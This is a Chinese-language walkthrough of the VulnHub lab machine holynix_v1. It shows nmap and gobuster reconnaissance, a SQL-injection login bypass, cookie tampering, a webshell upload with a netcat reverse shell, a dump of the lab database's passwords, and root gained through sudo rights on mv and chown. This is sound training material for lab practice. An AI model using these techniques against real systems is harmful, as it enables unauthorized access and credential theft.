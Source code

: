 # holynix_v1
平台：vulnhub
难度：简单

### nmap扫描

**主机发现：**
```
sudo nmap -sn 192.168.162.0/24 --min-rate 10000

Nmap scan report for 192.168.162.1 (192.168.162.1)
Host is up (0.0026s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.162.2 (192.168.162.2)
Host is up (0.0014s latency).
MAC Address: 00:50:56:FA:F4:E6 (VMware)
Nmap scan report for 192.168.162.138 (192.168.162.138)
Host is up (0.00050s latency).
MAC Address: 00:0C:29:BC:05:DE (VMware)
Nmap scan report for 192.168.162.254 (192.168.162.254)
Host is up (0.00047s latency).
MAC Address: 00:50:56:E3:0E:07 (VMware)
Nmap scan report for 192.168.162.135 (192.168.162.135)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 0.55 seconds
```
新的IP是192.168.162.138，是靶机的IP。

**基本端口扫描：**
```
sudo nmap -Pn --min-rate 10000 192.168.162.138

Host is up (0.025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:BC:05:DE (VMware)
```

**详细扫描：**
```
sudo nmap -Pn -p 80 192.168.162.138 -sC -sV -O

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:BC:05:DE (VMware)

OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:linksys:rv042 cpe:/o:linux:linux_kernel:4.4 cpe:/o:linux:linux_kernel:2.6.28 cpe:/h:nokia:n900 cpe:/o:google:android:4.0.4 cpe:/h:iptime:pro_54g cpe:/h:linksys:wrv54g
Aggressive OS guesses: Linux 2.6.24 - 2.6.25 (98%), Linux 2.6.35 (95%), Linux 2.6.22 (SPARC) (94%), Linux 2.6.18 - 2.6.24 (93%), Linksys RV042 router (93%), Linux 2.6.9 - 2.6.33 (93%), Linux 4.4 (92%), Nokia N900 mobile phone (Linux 2.6.28) (92%), Linux 2.6.22 (embedded, ARM) (92%), Linux 2.6.22 - 2.6.23 (92%)
```




### gobuster扫描

使用一般字典，30个线程，快速扫一遍。
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.162.138/ -t 30

/index                (Status: 200) [Size: 776]
/login                (Status: 200) [Size: 342]
/misc                 (Status: 301) [Size: 357] [--> http://192.168.162.138/misc/]
/header               (Status: 200) [Size: 604]
/footer               (Status: 200) [Size: 63]
/upload               (Status: 301) [Size: 359] [--> http://192.168.162.138/upload/]
/img                  (Status: 301) [Size: 356] [--> http://192.168.162.138/img/]
/home                 (Status: 200) [Size: 109]
/transfer             (Status: 200) [Size: 44]
/ssp                  (Status: 301) [Size: 356] [--> http://192.168.162.138/ssp/]
/messageboard         (Status: 200) [Size: 249]
/calender             (Status: 200) [Size: 247]
/server-status        (Status: 403) [Size: 336]
```
最后发现爆破出来的好多目录都没用。-_-

开头是一个的路的界面可以使用万能后台密码登录：https://ctf-wiki.org/web/sqli/
`username:admin`
`password:' or 1=1#`

然后可以看到我们现在的用户是`alamo`，在upload的地方有上传文件的地方，但是没有上传文件的权限，检查一下cookie， 然后发现cookie的值为1，改为2用户变为`etenenbaum`，应该可以上传webshell了。
不过这个地方不能直接上传，需要把文件压缩后再上传：
```bash
tar -zcvf shell.tar.gz webshell.php
```
使用nc监听：
```bash
nc -lnvp 1234
```
弹反shell后先使用python稳定shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


在/var/apache2文件夹下面有config.inc的文件，内容为：
```php
<?php
$dbhost = 'localhost';
$dbuser = 'root';
$dbpass = 'mY5qLr007p@S5w0rD';
$dbname = 'creds';
?>
```
登陆一下mysql试试。
```bash
mysql -u root -p
```
数据库creds中accounts的内容：
```
+-----+------------+--------------------+--------+
| cid | username   | password           | upload |
+-----+------------+--------------------+--------+
|   1 | alamo      | Ih@cK3dM1cR05oF7   | 0      | 
|   2 | etenenbaum | P3n7@g0n0wN3d      | 1      | 
|   3 | gmckinnon  | d15cL0suR3Pr0J3c7  | 1      | 
|   4 | hreiser    | Ik1Ll3dNiN@r315er  | 1      | 
|   5 | jdraper    | p1@yIngW17hPh0n35  | 1      | 
|   6 | jjames     | @rR35t3D@716       | 1      | 
|   7 | jljohansen | m@k1nGb0o7L3g5     | 1      | 
|   8 | kpoulsen   | wH@7ar37H3Fed5D01n | 1      | 
|   9 | ltorvalds  | f@7H3r0FL1nUX      | 0      | 
|  10 | mrbutler   | n@5aHaSw0rM5       | 1      | 
|  11 | rtmorris   | Myd@d51N7h3NSA     | 1      | 
+-----+------------+--------------------+--------+
```

### 提权

**sudo -l:**
```
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
```
将 /bin/bash 文件复制到 /tmp 文件夹
`cp /bin/bash .`

更改文件 /tmp/bash 的所有权，以便从此 root 成为所有者
`sudo chown root:root /tmp/bash`

将现有的 /bin/tar 文件备份到 bin/tar.bak
`sudo mv /bin/tar /bin/tar.bak`

现在将 /tmp/bash 文件移动到 /bin/tar
`sudo mv /tmp/bash /bin/tar`

执行命令 /bin/tar（理想情况下运行 /bin/bash）
`sudo /bin/tar`

